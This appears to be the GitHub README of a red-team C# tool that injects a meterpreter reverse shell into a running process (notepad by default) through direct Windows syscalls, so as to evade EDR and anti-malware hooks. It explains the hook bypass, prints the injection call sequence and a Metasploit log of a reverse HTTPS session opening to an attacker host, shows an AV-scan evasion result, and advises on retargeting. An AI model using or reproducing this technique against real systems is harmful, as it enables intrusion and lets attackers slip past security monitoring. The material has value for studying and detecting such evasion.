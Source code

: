# SysCalls
An example of using Windows System Calls (syscalls) in C# to inject a meterpreter shell.

# Introduction
This code is based upon the excellent [Red Team Tactics: Utilizing Syscalls in C#](https://jhalon.github.io/utilizing-syscalls-in-csharp-1/) primer by **Jack Halon**, explaining the use of 'System Calls in windows malware for post-exploitation activities, as well as for the bypassing of EDR or Endpoint Detection and Response'. I recommend reading it, it's not an easy subject, but well worth the effort!

Some anti-malware products, such as Bit Defender inject user mode hooks in `ntdll.dll` when new processes are created. This means that whenever APIs such as `NtCreateThreadEx` are called in `ntdll.dll` Bit Defender intercepts the call, does its scanning, then returns execution to the thread (or more likely if there is a meterpreter payload, spoils the fun and kills the process).

If we use syscalls directly we can avoid the hooks, and effectively bypassing the anti-malware scan.

I updated the code to include dynamic syscall resolution, based upon the article [Dynamically resolving syscalls in C#](https://fgsec.net/posts/Dynamically-resolving-syscalls-in-CSharp/) by **FGSec**.

# Codez
If you just want to dig in to the code, go here:

[Native.cs](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Native.cs) - Native imports/structs from Win32 APIS

[Syscalls.cs](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Syscalls.cs) - The sycall implementation.

[Program.cs](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Program.cs) - The main routine.


# Important
Syscall codes can and do change between operating systems. You must change the the codes in the [Syscalls class](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Syscalls.cs) to match those of your target.

And remember, the code looks for an instance of notepad to inject into, it is trivial to change this, or even spawn a surregate process to inject in to.

# Example
Execution of the code is shown below:

```
[+] Base Address of ntdll is 0x7FFE23450000
[+] Target PID is 40140
[+] Syscall NtOpenProcess on 40140
[+] Return, NTSTATUS=Success, hProcess=0x2F4
[+] Syscall NtAllocateVirtualMemory on 0x2F4
[+] Return, NTSTATUS=Success, baseAddress=0x1D2A9120000
[+] Syscall NtWriteVirtualMemory to 0x1D2A9120000
[+] Return, NTSTATUS=Success, bytesWritten=0x736
[+] Syscall NtProtectVirtualMemory on 0x1D2A9120000
[+] Return, NTSTATUS=Success
[+] Syscall NtCreateThreadEx to 0x1D2A9120000
[+] Return, NTSTATUS=Success, hThread=0x896
```

And the meterpreter shell:

```
msf6 exploit(multi/handler) > 
[*] Started HTTPS reverse handler on https://192.168.1.228:443
[*] https://192.168.1.228:443 handling request from 192.168.1.142; (UUID: bprg2hzm) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.228:443 -> 192.168.1.142:58551) at 2021-10-05 12:53:47 +0100
```

# AV Scan Results

The binary was scanned using [antiscan.me](https://antiscan.me/scan/new/result?id=2kut9uVkyXQW) on 05/10/2021.

![AV Scan](https://github.com/plackyhacker/SysCalls/blob/main/Syscall_scan.png?raw=true)

# Notes

Tested with windows/x64/meterpreter/reverse_https on Windows 10 Pro (build 10.0.19042) with Defender.
